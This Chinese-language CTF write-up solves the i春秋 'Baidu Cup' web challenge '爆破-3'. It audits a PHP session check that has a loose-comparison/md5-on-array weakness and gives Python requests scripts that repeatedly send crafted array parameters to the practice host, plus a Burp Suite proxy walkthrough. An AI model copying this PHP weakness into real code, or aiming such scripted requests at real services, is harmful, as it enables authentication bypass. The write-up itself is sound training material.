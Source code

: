 ```yaml
---
title: 【i春秋】 Web —— 爆破-3
copyright: true
date: 2018-09-11 23:06:53
tags: [i春秋,CTF,Writeup,Web,Audit,PHP,Python,HTTP]
categories: [InfoSec,Web]
---
```


# 0x00 前言

此题出自「百度杯」CTF 比赛 2017 二月场，是第三道 「爆破」系列的 Web 题，主要考察在理解了题目 PHP 代码的逻辑后，**通过网络编程与服务器交互获取 flag** 的能力，难度中低，需要的基础知识有：**PHP、Python、HTTP协议**。

题目链接在「i春秋」的 CTF 大本营，解题链接通过创建在线靶场后得到：

- 题目链接：[https://www.ichunqiu.com/battalion?t=1&r=57475](https://www.ichunqiu.com/battalion?t=1&r=57475)

<!-- more -->

![question](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/question.png)

# 0x01 理解 PHP 代码逻辑

打开链接，发现本题的 PHP 源码比前两题要复杂，做审计题首先是要理解代码逻辑：

```php
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

- Line 3~9：开始会话，包含 flag.php 文件，为超级全局变量 [`$_SESSION`](http://php.net/manual/en/reserved.variables.session.php) 的三个参数初始化。
- Line 11~13：若 Session 有效期超过了两分钟，则销毁当前会话。
- Line 15~17：先通过 GET 请求或 POST 请求获取的 `value` 参数，再随机选择两个小写字母拼接成字符串。
- Line 19~23：若 `$_SESSION['whoami']` 等于 `$value` 数组中两个元素的拼接，并且 `$value` 的 MD5 哈希值的第 5 至 8 位等于 0，则将 `$_SESSION['nums']` 自增，将 `$_SESSION['whoami']` 更新为随机字符串并输出。
- Line 25~27：若 `$_SESSION['nums']` 大于等于 10，则输出 flag。

理解了代码逻辑后，再结合提示，基本可判断此题真的需要通过网络交互，来「爆破」获取 flag。

# 0x02 编写 Python 网络通信脚本

本题的难点是**如何通过 GET 或 POST 请求，传送同一数组参数的不同元素值**。常见方法有以下两种：

- `value[]=e&value[]=a`
- `value[0]=e&value[1]=a`

使用 Firefox 浏览器，针对 GET 请求进行验证。第一种方法：

![method1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/method1.png)

第二种方法：

![method2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/method2.png)

针对 POST 请求同样适用，请读者自行验证。

将页面显示的新值传入 `value` 参数后，按上述方法手动循环 10 次，即可满足输出 flag 的条件，但只仅对于次数少的情况有效，如果循环 100 次，还想继续手动操作吗？这时，使用 Python 的**第三方开源库 [Requests](https://requests.kennethreitz.org/en/master/)** 编写自动化脚本，即可轻松解决问题，基本用法可参考：

> [详解 CTF Web 中的快速反弹 POST 请求](https://ciphersaw.github.io/2017/12/16/%E8%AF%A6%E8%A7%A3%20CTF%20Web%20%E4%B8%AD%E7%9A%84%E5%BF%AB%E9%80%9F%E5%8F%8D%E5%BC%B9%20POST%20%E8%AF%B7%E6%B1%82/)

以下是针对 GET 请求构造的 Python 解题脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
for i in range(10):
	print(whoami)
	payload = "?value[0]={}&value[1]={}".format(whoami[0], whoami[1])
	response = s.get(url + payload)
	whoami = response.text[:2]
print(response.text)
```

- Line 8~12：自动循环提交 10 次 GET 请求，并输出每次循环的 `value` 参数。
- Line 13：将最后一次响应的报文内容输出，即可看到 flag。

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/flag.png)

将第 10 行改为 `payload = "?value[]={}&value[]={}".format(whoami[0], whoami[1])` 同样能获得 flag。

# 0x03 使用 BurpSuite 抓取 Python 流量数据

针对 GET 请求直接构造字符串 payload 相对简单，如果使用 POST 请求，还需要构造表单数据的 `dict` 类型变量。以下是针对 POST 请求构造的 Python 解题脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
for i in range(10):
	print(whoami)
	payload = {"value[0]": whoami[0], "value[1]": whoami[1]} 
	response = s.post(url, data = payload)
	whoami = response.text[:2]
print(response.text)
```

显而易见，只有第 10、11 行与 GET 请求不同，运行完上述脚本后也能获得 flag。不过，当我们依葫芦画瓢将第 10 行改为 `payload = {"value[]": whoami[0], "value[]": whoami[1]} ` 后，却发现无法获得 flag 了：

![flag_failure](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/flag_failure.png)

借此机会，讲解一下如何使用 Burp Suite 抓取 Python 发送的网络请求包，相信大家看到请求包后，答案便一目了然。以下是利用代理抓取 POST 请求包的 Python 脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
payload = {"value[]": whoami[0], "value[]": whoami[1]} 
burp = {"http": "127.0.0.1:8080"}
response = s.post(url, data = payload, proxies = burp)
```

- 构造 POST 请求中 [`proxies` 代理参数](https://requests.kennethreitz.org/en/master/user/advanced/#proxies)的 `dict` 类型变量，其中 `http` 是代理访问 URL 的协议类型，`127.0.0.1:8080` 是 Burp Suite 的本地监听地址与端口号。

将 Burp Suite 开启 Intercept 模式，运行上述脚本即可看到：

![burp_failure](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/burp_failure.png)

可发现表单数据只剩 `value[]=a`，原来前面 `value[]=e` 的值已被覆盖。那么问题来了，如何构造 POST 请求中不带索引的同一数组参数的不同值呢？

正确的构造方法是 `payload = {"value[]": [whoami[0], whoami[1]]} ` ，再次运行脚本，即可看到表单数据正常提交了：

![burp_success](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/burp_success.png)

其实，使用 requests 模块自带的方法也能查看请求头与请求体，对应的 Python 脚本如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = 'http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/'
s = requests.Session()
whoami = "ea"
payload = {"value[]": [whoami[0], whoami[1]]} 
response = s.post(url, data = payload)
print(response.request.headers)
print(response.request.body)
```

运行后即可在终端上看到请求头与请求体：

![requests_body](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/requests_body.png)
